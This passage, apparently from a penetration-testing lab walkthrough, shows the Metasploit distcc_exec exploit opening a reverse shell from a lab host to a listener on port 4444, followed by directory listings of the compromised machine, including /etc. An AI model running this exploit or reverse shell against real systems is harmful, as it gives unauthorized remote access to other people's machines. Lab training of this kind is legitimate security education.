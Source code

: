 7. As you can see above the payload has been set successfully. Now we will run the exploit and we will get the reverse shell. As shown below.

```bash
msf exploit(unix/misc/distcc_exec) > run
[*] Started reverse TCP double handler on 192.168.1.8:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ad1K8FELlgVEb6K4;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "ad1K8FELlgVEb6K4\r\n"
[*] Matching...
[*] B is input...
ls
[*] Command shell session 1 opened (192.168.1.8:4444 -> 192.168.1.74:46695) at 2025-09-08 11:40:50 +0530

4546.jsvc_up
cd ..

ls 
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
cd /etc     
ls
X11
adduser.conf
adjtime
aliases
aliases.db
alternatives
apache2
apm
apparmor
apparmor.d
apt
at.deny
bash.bashrc
bash_completion
bash_completion.d
belocs
```